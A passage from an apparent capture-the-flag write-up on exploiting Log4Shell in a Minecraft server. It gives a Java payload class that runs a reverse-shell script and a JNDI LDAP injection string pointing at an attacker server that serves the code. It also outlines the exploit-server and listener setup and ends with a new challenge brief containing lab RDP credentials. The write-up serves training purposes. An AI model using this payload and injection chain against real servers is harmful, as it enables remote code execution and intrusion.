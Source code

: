 Second payload:

```java
public class Log4jRCE {

    static {
        
        try {
            java.lang.Runtime.getRuntime().exec("bash rev.sh").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public Log4jRCE(){
        System.out.println("I am Log4jRCE from remote222!!!");
    }
}
```

Before triggering the payload a small setup was needed. 

1. Run the java compile and exploit serve script.
2. Run the reverse shell http serve script.
3. Run the reverse shell listener
4. Run the Log4JRCE redirection script - used to redirect LDAP requests to exploit serve script to transfer and execute the payload on target machine.

After everything was setup, the following script was ran in the MC client to send the chat message

```
/send ${jndi:ldap://10.85.26.3:1389/Log4jRCE}
```

You will notice that the LDAP server is spammed, not sure what caused this, but had to kill the redirector just to not DoS the minecraft server.

![Send jndi message and LDAP server](images/ldap-redirect-server.png){: .image-process-crisp}

![HTTP servers and reverse shell listener](images/http-servers-running-with-listener.png){: .image-process-crisp}

And after running the second payload, we are in!

![Inside the minecraft server system](images/log4j-we-in.png){: .image-process-crisp}

#### INFECTION

```md
Your mother comes to you complaining that her work computer is sometimes acting weirdly.
She also has been getting emails about failed logins to her Admirals account. Luckily MFA stopped the logins.
QUESTION
You have reason to think that the computer is infected with malware.
If you can find the malware, analyze it to figure out how it works.

Mom's computer:
Hostname: env263.target04
Protocol: RDP
Username: Administrator
Password: Cool2Pass
```
